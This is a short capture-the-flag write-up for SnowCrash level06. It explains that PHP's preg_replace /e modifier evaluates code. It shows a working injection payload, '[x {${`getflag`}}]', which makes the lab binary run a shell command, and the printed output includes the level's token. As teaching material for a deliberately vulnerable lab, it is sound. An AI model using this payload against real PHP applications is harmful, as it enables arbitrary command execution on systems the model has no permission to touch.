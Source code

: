 Level06 instructions

After analyzing the code we can see that there is an exploitation in the function `preg_replace` with the modifier `\e`
The `/e` modifier evaluates the replacement string as PHP code

https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php
https://www.exploit-db.com/exploits/23448
https://www.php.net/manual/en/language.operators.execution.php

Let's exploit this line
```
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)
```
We need to to add a PHP executable code after `[x`
```
level06@SnowCrash:~$ echo '[x {${phpinfo()}}]' > /tmp/exploit.txt
level06@SnowCrash:~$ ./level06 /tmp/exploit.txt
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/exploit.txt
level06@SnowCrash:~$ ./level06 /tmp/exploit.txt
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
evel06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$
```


